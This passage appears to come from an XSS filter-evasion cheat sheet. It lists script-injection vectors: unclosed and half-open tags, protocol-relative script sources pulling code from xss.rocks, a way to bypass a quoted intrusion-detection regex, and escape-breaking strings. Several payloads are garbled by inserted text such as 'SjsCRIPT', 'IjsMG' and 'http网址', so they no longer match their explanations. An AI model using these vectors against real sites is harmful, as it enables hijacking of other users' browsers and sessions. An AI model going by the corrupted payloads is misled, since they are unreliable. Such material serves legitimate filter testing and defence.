 ## No Closing Script Tags
In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don’t actually need the \></SCRIPT> portion of this Cross Site Scripting vector. Firefox assumes it’s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they’re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

```
<SjsCRIPT SRC=http网址xss.rocks/xss.js?< B >
```

## Protocol Resolution in Script Tags
This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh’s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The “.j” is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

```js
<SCRIPT SRC=//xss.rocks/.j>
```


## Half Open HTML/JavaScript XSS Vector
- Unlike Firefox the IE rendering engine doesn’t add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn’t require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close `“>”` tag the tags below it will close it.
- A note: this does mess up the HTML, depending on what HTML is beneath it.
- It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn’t require the end `“>”`. As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:


```
<IjsMG SRC="`('XSS')"`
```

## Double Open Angle Brackets
- Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering.
- Without it, Firefox will work but Netscape won’t:

```js
<iframe src=http网址xss.rocks/scriptlet.html <
```

## Escaping JavaScript Escapes
- application output some user information inside of a JavaScript like the following:
    - `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>`
- to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character.
- When this gets injected it will read
    - `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>`
    - which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire.
- The XSS locator uses this method.:
    - `\";alert('XSS');//`
- An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:
